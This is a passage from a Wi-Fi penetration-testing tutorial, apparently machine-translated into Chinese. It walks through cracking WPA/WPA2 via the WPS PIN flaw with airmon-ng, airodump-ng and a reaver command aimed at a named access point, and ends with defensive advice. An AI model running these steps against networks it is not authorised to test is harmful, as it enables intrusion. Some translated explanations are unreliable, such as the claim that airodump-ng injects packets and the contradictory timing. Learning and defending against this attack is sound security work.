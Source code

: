 在部分，我将演示如何破解 WPA 和 WPA2 无线网络。

1.  Open the Terminal and type the following command:

    ```
    airmon-ng start wlan0

    ```

    此命令将在监控模式下启动`wlan0`界面：

    ![Cracking WPA and WPA2 encryption](graphics/3183OS_04_14.jpg)

2.  Type the following command and press *Enter*:

    ```
    airodump-ng mon0

    ```

    这将允许我们将数据包注入无线网络。

    ![Cracking WPA and WPA2 encryption](graphics/3183OS_04_15.jpg)

3.  Type the following command and press *Enter*:

    ```
    reaver –i mon0 –c 11 –e Johns –b 20:AA:4B:F2:25:4E –vv --no-nacks

    ```

    以下是上述命令的组件：

    *   `-i`：这是无线接口
    *   `-c`：这是频道号
    *   `-e`：设置目标接入点
    *   `-b`：设置目标 MAC 地址
    *   `-vv`：这将设置两次详细选项，以增加详细性，并在尝试时显示每个 pin 码
    *   `--no-nacks`：这确保了目标接入点更好的可靠性

    以下是输出：

    ![Cracking WPA and WPA2 encryption](graphics/3183OS_04_16.jpg)

您需要更改以粗体突出显示的内容。此过程可能需要 2 到 10 个小时才能完成。如果失败，这可能是因为无线信号强度不好或此设备上未实现 WPS。

### 什么是收割者？

Reaver 是一个免费的开源工具，可以利用和破解 WPA 或 WPA2 加密的无线网络。它还设计用于对启用 WPS 的无线接入点执行暴力攻击。

### 收割者是如何工作的？

现在你知道什么是收割者了，我们需要简单地讨论一下它是如何工作的。Reaver 利用了无线设备中一种称为 WPS 的功能。**Wi-Fi 保护设置**（**WPS**）为那些不知道如何在无线网络上设置无线安全的人提供了一个简单的设置。它生成一个硬编码到特定设备的 PIN。“掠夺者”利用引脚中的缺陷，只需片刻时间即可揭示 WPA 或 WPA2 密码短语。

### 保护自己免受掠夺者的伤害

为了方便地保护自己免受“掠夺者”攻击，请从无线设备禁用 WPS 功能。如果您是一家企业，请使用 WPA2-PSK（AES）。如果您是家庭用户，请使用 WPA2 个人 AES。永远不要生成密码，使用强复杂的密码短语并经常更新密码短语。
